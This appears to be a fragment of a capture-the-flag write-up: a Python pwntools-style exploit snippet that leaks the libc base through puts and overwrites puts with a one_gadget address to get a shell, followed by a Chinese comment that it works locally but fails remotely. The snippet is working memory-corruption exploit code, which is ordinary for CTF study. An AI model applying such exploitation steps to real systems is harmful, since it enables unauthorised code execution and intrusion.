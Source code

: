 ```python
    libcBase = u64(puts[:6] + b'\0\0') - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libc: {hex(libcBase)}'))
    ogg = 0xef9f4
    oneGadget = libcBase + ogg

    # now edit puts as one gadget so puts@plt triggers shell
    edit(p64(oneGadget), p64(oneGadget), True) # when writing data calls puts
    sh.clean()
    sh.interactive()
```

> 又是本地通远程不通...  
> 打远程的时候发现libcBase完全错误，想拿远程的各种地址推测libc，结果少约束几个地址吧，
> 候选项太多，多约束几个地址吧，一个匹配的都没了，严重怀疑主办方没有验证题目的正确性
